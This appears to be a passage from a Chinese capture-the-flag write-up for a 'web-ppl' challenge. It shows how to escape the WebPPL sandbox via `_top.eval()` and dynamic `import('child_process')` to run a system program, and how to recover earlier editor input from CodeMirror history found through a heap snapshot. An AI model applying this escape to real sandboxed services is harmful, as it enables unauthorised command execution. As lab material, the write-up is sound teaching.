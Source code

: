 ```javascript
function go() {
    var shadow = event.srcElement.shadowRoot;
    var chunks = shadow.querySelectorAll(".chunk");
    alert(chunks.length)
    var s = ""
    for (var chunk of chunks) {
        s += getComputedStyle(chunk, ":before").getPropertyValue('content').slice(1,-1)
        s += getComputedStyle(chunk, ":after").getPropertyValue('content').slice(1,-1)
    }
    document.getElementById("noiseInput").value=s
}
```

## 概率题目概率过* | web-ppl
### 后端开发*

根据提示，在 [github issue 页面](https://github.com/probmods/webppl/issues/643)，找到了`_top.eval()` 可以用来调用 JS 的 eval。

但是即使进入 eval 环境，还是什么都做不了，因为缺少文件系统等库（没有 require 和 import 语法）。

根据二阶段提示，我们有 `import()` 函数可以使用。[这里](https://www.bookstack.cn/read/es6-3rd/spilt.10.docs-module.md)有这个函数的介绍。

有了 import，可以简单的使用 NodeJS 中 child_process 库调用系统程序了。
```javascript
_top.eval("\
	import('child_process').then(cp => {\
		cp.exec('/tmp/print_flag_2', (error, stdout, stderr) => {\
			console.log(error, stdout, stderr);\
		});\
	});\
");
```

### 前端开发*

根据提示，在 Heap Snapshot 中寻找之前输入的痕迹。

![heap_snapshot](web-ppl/heap_snapshot.png)

在右侧有窗口标记的地方，可以找到这个对象的具体引用位置（也就是从控制台能访问的到）。

其他路径灰色的部分有可能是函数内部等语境，已经无法从外部在获取对象引用了。

沿着路径，可以找到 CodeMirror 的的位置。

![code_mirror](web-ppl/code_mirror.png)

获取 DOM 后就可以访问这个对象，以及后面的内容：

```javascript
_top.eval("\
	var h = document.getElementsByClassName('CodeMirror')[0].CodeMirror.doc.history.done;\
	for (var e of h) {\
		if (e.changes !== undefined){\
			var text = e.changes[0].text[0];\
			if (text.slice(0, 7) == 'console') {\
				document.title = text;\
			}\
		}\
	}\
");
```
